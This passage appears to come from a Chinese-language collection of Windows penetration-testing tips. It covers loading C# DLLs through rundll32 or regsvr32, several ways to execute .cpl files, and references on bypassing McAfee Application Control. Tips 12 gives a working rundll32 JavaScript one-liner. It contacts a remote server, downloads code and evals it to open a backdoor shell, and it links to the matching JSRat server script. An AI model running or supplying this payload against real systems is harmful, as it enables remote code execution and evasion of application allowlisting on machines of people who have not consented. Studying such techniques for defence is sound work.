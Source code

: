 ```
```

参考：《Bypass McAfee Application Control——Code Execution》

#### Tips 10. 通过c#编写dll &amp; 通过rundll32.exe或者regsvr32加载dll

默认情况下，c#不可以声明导出函数，但可通过添加UnmanagedExports实现

当然，通过c#编写的dll，dll需要在对应版本的.NET环境才能正常运行，通过c++编写的dll更加通用

通过rundll32.exe或者regsvr32能够加载dll，但要求dll包含特定的导出函数

参考：《Code Execution of Regsvr32.exe》

#### Tips 11. Windows下cpl文件介绍

本质上是DLL文件，后缀名为cpl，包含一个导出函数CPLApplet(c实现可不指定)

执行方法：

(1)双击直接运行

(2)cmd

```
rundll32 shell32.dll,Control_RunDLL test.cpl
```

(3)cmd

```
control test.cpl
```

(4)vbs

```
Dim obj
Set obj = CreateObject("Shell.Application")
obj.ControlPanelItem("test.cpl")
```

(5)js

```
var a = new ActiveXObject("Shell.Application");
a.ControlPanelItem("c:\\test\\test.cpl");
```

参考：《CPL文件利用介绍》

#### Tips 12. Windows下通过cmd调用rundll32执行一段代码弹回Shell

Server:

https://github.com/3gstudent/Javascript-Backdoor/blob/master/JSRat.ps1

Client:

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");w=new%20ActiveXObject("WScript.Shell");try{v=w.RegRead("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet%20Settings\\ProxyServer");q=v.split("=")[1].split(";")[0];h.SetProxy(2,q);}catch(e){}h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```
